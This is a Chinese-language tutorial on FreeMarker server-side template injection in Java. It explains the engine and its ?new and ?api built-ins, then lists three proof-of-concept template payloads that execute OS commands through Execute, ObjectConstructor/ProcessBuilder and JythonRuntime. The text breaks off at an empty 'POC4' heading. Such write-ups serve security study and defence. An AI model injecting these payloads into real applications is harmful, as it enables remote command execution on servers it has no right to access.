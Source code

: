 # Java安全之freemarker 模板注入

## freemarker 简述

FreeMarker 是一款 模板引擎： 即一种基于模板和要改变的数据， 并用来生成输出文本(HTML网页，电子邮件，配置文件，源代码等)的通用工具。 它不是面向最终用户的，而是一个Java类库，是一款程序员可以嵌入他们所开发产品的组件。

模板编写为FreeMarker Template Language (FTL)。它是简单的，专用的语言， 不是 像PHP那样成熟的编程语言。 那就意味着要准备数据在真实编程语言中来显示，比如数据库查询和业务运算， 之后模板显示已经准备好的数据。在模板中，你可以专注于如何展现数据， 而在模板之外可以专注于要展示什么数据。

这种方式通常被称为 MVC (模型 视图 控制器) 模式，对于动态网页来说，是一种特别流行的模式。 它帮助从开发人员(Java 程序员)中分离出网页设计师(HTML设计师)。设计师无需面对模板中的复杂逻辑， 在没有程序员来修改或重新编译代码时，也可以修改页面的样式。

其实FreeMarker的原理就是：模板+数据模型=输出

## 内置函数

### new

可创建任意实现了`TemplateModel`接口的Java对象，同时还可以触发没有实现 `TemplateModel`接口的类的静态初始化块。
以下两种常见的FreeMarker模版注入poc就是利用new函数，创建了继承`TemplateModel`接口的`freemarker.template.utility.JythonRuntime`和`freemarker.template.utility.Execute`。

### API

value?api 提供对 value 的 API（通常是 Java API）的访问，例如 `value?api.someJavaMethod()` 或 `value?api.someBeanProperty`。可通过 `getClassLoader`获取类加载器从而加载恶意类，或者也可以通过 `getResource`来实现任意文件读取。
但是，当`api_builtin_enabled`为true时才可使用api函数，而该配置在**2.3.22版本**之后默认为false。

POC1

```java
<#assign classLoader=object?api.class.protectionDomain.classLoader> 
<#assign clazz=classLoader.loadClass("ClassExposingGSON")> 
<#assign field=clazz?api.getField("GSON")> 
<#assign gson=field?api.get(null)> 
<#assign ex=gson?api.fromJson("{}", classLoader.loadClass("freemarker.template.utility.Execute"))> 
${ex("open -a Calculator.app"")}
```

POC2

```java
<#assign value="freemarker.template.utility.ObjectConstructor"?new()>${value("java.lang.ProcessBuilder","whoami").start()}
```

POC3

```java
<#assign value="freemarker.template.utility.JythonRuntime"?new()><@value>import os;os.system("calc.exe")
```

POC4
